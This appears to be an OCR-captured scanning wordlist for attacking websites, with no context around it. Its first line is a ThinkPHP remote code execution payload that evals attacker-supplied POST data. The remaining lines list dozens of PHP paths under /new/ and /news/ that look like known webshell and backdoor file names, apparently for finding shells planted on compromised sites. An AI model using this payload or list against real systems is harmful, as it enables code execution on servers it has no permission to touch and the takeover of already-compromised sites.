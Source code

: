 /module/action/param1/{${eval($_POST[thinkphp])}}
/new/1ndex.php
/new/ad_js.php
/new/av.php
/new/cache/x.php
/new/config.inc.php
/new/config.php
/new/door.php
/new/dxyylc/md5.php
/new/e7xue.php
/new/feedback.php
/new/filter.helpear.php
/new/inCahe.php
/new/index.php
/new/ixve.php
/new/laobiao.php
/new/long.php
/new/mcds.php
/new/modurnlecscache.php
/new/mp.php
/new/mybak.php
/new/mytag_js.php
/new/rom2823.php
/new/sfmb.php
/new/shijian.php
/new/sky.php
/new/snxv.php
/new/tools.php
/new/uploadye.php
/new/view.php
/new/weki.php
/new/xsvip.php
/new/ying.php
/news/1ndex.php
/news/ad_js.php
/news/av.php
/news/config.inc.php
/news/door.php
/news/dxyylc/md5.php
/news/e7xue.php
/news/feedback.php
/news/filter.helpear.php
/news/inCahe.php
/news/index.php
/news/ixve.php
/news/laobiao.php
/news/log.php
/news/long.php
/news/mcds.php
/news/modurnlecscache.php
/news/mp.php
/news/mybak.php
/news/mytag_js.php
/news/rom2823.php
/news/sfmb.php
/news/shijian.php
/news/sky.php
/news/snxv.php
/news/tools.php
/news/uddatasql.php
/news/uploadye.php
/news/view.php
/news/weki.php
/news/xsvip.php